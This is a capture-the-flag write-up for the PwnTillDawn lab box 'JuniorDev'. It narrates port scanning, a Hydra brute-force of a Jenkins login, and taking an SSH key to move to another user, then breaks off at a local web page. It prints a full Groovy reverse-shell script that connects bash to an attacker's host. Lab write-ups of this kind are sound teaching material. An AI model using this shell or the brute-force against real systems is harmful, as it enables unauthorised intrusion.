 # 10.150.150.38 ( JUNIORDEV )- PWNTILLDAWN WRITEUP

The following ports were found using rustscan

![](images/rustscan_results.png)

I served the ports to nmap and got found a http site

![](images/nmap_results.png)

It was a jekins login page, i tried the usual default login pairs but none worked.

![](images/jekins_failed_default.png)

After some digging I decided to use hydra to bruteforce it

![](images/hydra_command.png)

We got a hit :grin: !

![](images/hydra_success.png)

Inputed the details and we have a dashboard now.

![](images/jekins_dashboard.png)

Looked around and found a flag under the `people` tab

![](images/people.png)

Looked around a bit more and found out i could run scripts here. Found a walkthrough on how to get a shell using "Jekins Groovy Scirpt" here: `https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6`

I pasted the code into the groovy scripts input box 

```
String host="ip";
int port="port";
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

Then started a netcat listener and ran the script

![alt text](images/shell.png)

Found another Flag

![alt text](images/flag70.png)

Ran Linpeas but no dice, looked around and found another user `juniordev`, the user has a `.ssh` folder but i cannot `-ls -la` the folder due to permission issues

![](images/junirdevlsla.png)

But funny enough I can `cat` out it's presumed contents:

![](images/cat.png)

Copy paste and ssh into junior dev and voila we are juniordev

![alt text](images/jdevterminal.png)

Ran `Linpeas` again, no dice :unamused:, tried some suggested exploits, nothing. Looked a bit close and found something

![](images/ports.png)

A port that didn't show up during recon ,looked into it a bit more with `pspy`

![image of pspy](images/pspy.png)

Used ssh local port forwarding to open the local page:`ssh -L 8080:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN` 
and the we have a page now.

It looks like a simple additiion page created in python.